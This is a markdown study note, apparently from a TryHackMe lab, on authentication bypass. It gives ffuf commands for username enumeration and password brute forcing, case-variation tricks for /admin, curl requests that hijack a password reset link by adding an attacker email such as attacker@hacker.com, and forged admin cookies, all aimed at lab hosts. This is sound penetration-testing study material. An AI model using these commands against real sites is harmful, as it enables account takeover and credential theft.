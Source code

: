 # Authentication Bypass
## Username Enumeration
- Try a random username that probably does not exist, and then try one that probably exists, is there a different error?
````
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
````
- We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
- The ffuf tool uses a list of commonly used usernames to check against for any matches.
- Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`
````
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
````
- `-w` -> selects the file's location
- `-X` -> argument specifies the request method
- `-d` -> the data that we are going to send
- `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
- `-H` -> for adding additional headers to the request
- `-u` ->  specifies the URL we are making the request to
- `-mr` -> is the text on the page we are looking for to validate we've found a valid username
## Password Brute force attack
````
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````
- Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
- `W1` -> for our valid list of usernames
- `W2` -> for the list of passwords we are going to try
- `-w` -> the multiple word lists are also specified with this flag
- `-fc` -> this argument check for an HTTP status code other than a 200
## Authentication Bypass Logic Flaw
- If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
- Try:
````
/adMin
/aDmIn
````
### Finding password reset forms
- If there is an option always make an account. There could be pages you have access to that you otherwise would not.
- Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
- ![alt text](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f457baf00c357990014739bd6bce5b75.png)
- Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
````
- `-H` -> to add an additional header to the request.  In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
- Can find this out in burp, or set something ourselves
- The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
- We can control where the password reset email gets delivered.
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
````
- Now re-running the curl command we can alter where the reset link is sent
````
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
````
## Cookie Tampering 
- Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
- First, we'll start just by requesting the target page:
````
curl http://MACHINE_IP/cookie-test
````
- We can see we are returned a message of: Not Logged In
- Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:
````
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
````
- We are given the message: Logged In As A User
- Finally, we'll send one last request setting both the logged_in and admin cookie to true:
````
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
````
- This returns the result: Logged In As An Admin



































































